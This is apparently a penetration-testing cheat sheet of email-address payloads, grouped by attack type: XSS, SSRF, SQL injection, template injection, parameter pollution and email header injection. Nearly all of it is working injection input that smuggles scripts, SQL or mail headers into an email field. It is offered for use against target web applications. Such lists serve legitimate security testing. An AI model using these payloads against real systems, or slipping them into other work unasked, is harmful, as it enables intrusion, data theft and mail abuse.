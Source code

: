 # Email payloads

## Email payloads

### XSS 

`polo+(<script>alert(0)</script>)@target.com`

`polo@target.com(<script>alert(1)</script>).com`

`"<script>alert(1)</script>"@target.com`

### SSRF

`polo@[127.0.0.1]`

`polo@something.burpcollaborator.test`

### SQLI

`"' OR 1=1 -- '"@target.com`

`"mail'); Select * from Users;--"@target.com`

### Template Injection

`"<%= 2 * 2 %>"@target.com`

`polo+(${{ 2 * 2 }})@target.com`

### Wildcard

`%@target.com`

### Parameter pollution

`polo&email=test@target.o r g`

### Email headers injection

`"%0d%0aContent-Length:%200%0d%0a%0d%0a"@test.test`

`"erf@target.com>\r\nRCPT TO:<polo+"@test.test`

### Whitelist bypass

![](../../.gitbook/assets/image%20%2895%29.png)

### Resources





